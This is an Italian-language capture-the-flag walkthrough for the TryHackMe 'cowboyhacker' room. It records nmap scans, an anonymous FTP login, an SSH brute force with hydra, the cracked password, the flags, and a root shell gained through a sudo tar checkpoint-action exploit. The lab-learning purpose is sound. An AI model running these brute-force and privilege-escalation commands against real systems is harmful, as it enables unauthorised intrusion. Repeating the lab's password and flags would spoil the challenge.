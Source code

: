 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/cowboyhacker

```
ping 10.10.36.11
```
ttl=64 (macchina linux)
ttl=128 (macchina windows)

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.36.11 -oG risultatoscan
```

```
sudo nmap -sC -sV -p21,22,80 10.10.36.11 -oN risultatoscan2
```

come si vede dal risultato c'è possibilità di  connettersi in modalità anonima  in ftp
```shell
ftp 10.10.36.11
```
ed entriamo con nome user:
```
anonymous
```
e *password vuota

ftp è passivo quindi fare
```
passive off
```

```
ls -l
```

```
less task.txt
```
==scritto da lin==
```
less locks.txt
```
scarichiamo i file con mget
```
mget *
```


searchsploit OpenSSH (è vulnerabile ma utilizziamo bruteforce hydra in quanto abbiamo trovato elenco password e nome utente)

```shell
hydra -l lin -P /home/kali/locks.txt 10.10.36.11 -t 4 ssh
```
password trovata 
```
RedDr4gonSynd1cat3
```

```
ssh lin@10.10.36.11
```

```
cat user.txt
```

```
THM{CR1M3_SyNd1C4T3}
```

```
find / -perm -4000 -ls 2>/dev/null
```
prima di Suid andiamo a vedere su che binario abbiamo i permessi di root
```
sudo -l
```
/bin/tar

https://gtfobins.github.io/#/bin/tar

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```
whoami
```
siamo root!

```
cd /root
```

```
cat root.txt
```


```
THM{xxxxxxxxxxx}
```


